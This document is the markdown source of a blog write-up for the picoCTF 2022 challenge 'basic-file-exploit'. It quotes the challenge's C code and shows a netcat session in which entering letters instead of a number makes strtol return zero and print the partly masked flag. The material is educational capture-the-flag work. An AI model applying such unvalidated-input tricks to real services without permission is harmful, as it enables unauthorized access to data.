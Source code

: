 ```yaml
---
title: "pico22/pwn: basic-file-exploit"
date: 2022-04-05 12:16:07
categories:
- ctfs
- pico22
- pwn
tags:
- pwn
description: "Learn how to pass unexpected datatypes into ELF binaries to break the code! This is my writeup for the picoCTF 2022 binary/pwn challenge \"basic-file-exploit\"."
permalink: ctfs/pico22/pwn/basic-file-exploit/
thumbnail: /asset/banner/banner-basic-file-exploit.png
---
```


<style>
    .box {
        border: 1px solid rgba(100, 100, 100, .5);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
        margin-top: 1rem;
        margin-bottom: 1rem;
    }
    .flex-container {
        display: flex;
        flex-wrap: nowrap;
        justify-content: center;
    }
</style>

<p class="box">
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!<br>Connect to the program with netcat: <code>$ nc saturn.picoctf.net 50366</code><br>
The program's source code with the flag redacted can be downloaded  <a href="https://artifacts.picoctf.net/c/538/program-redacted.c">here</a>.</p>

Let's run that `nc` command to see what's going on:

```console
$ nc saturn.picoctf.net 50366
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
```

Since this is binary exploitation, we're probably looking for something that the user can input which breaks the code.
To see what we can break, enter the source code given to you (the file called `program-redacted.c`):

```console
$ nano program-redacted.c
```

Let's look for the flag:

```c
static const char* flag = "[REDACTED]";
```

Well, that doesn't help. Let's keep looking.

```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```

Here, the flag is going to be printed if this condition is met. Google defines `strtol()` as a function that "converts the initial part of the string in **str** to a **long int** value according to the given **base**". To break it, we need to input something that is **unconvertible into a long integer**. In this case, it would be letters! This statement is within the `static void data_read()` function. Let's see where it's called:

```c
 } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
```

We should be pressing the command `2` to read from the stored data (once we write it with the `1` command). Once it prompts us with "Read successful..." we should input letters to break it. Let's head back to the `netcat` and test it out:

```console
$ nc saturn.picoctf.net 50366
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
hello
hello
Please enter the length of your data:
5
5
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
"NO!"
"NO!"
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_********}
```

<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
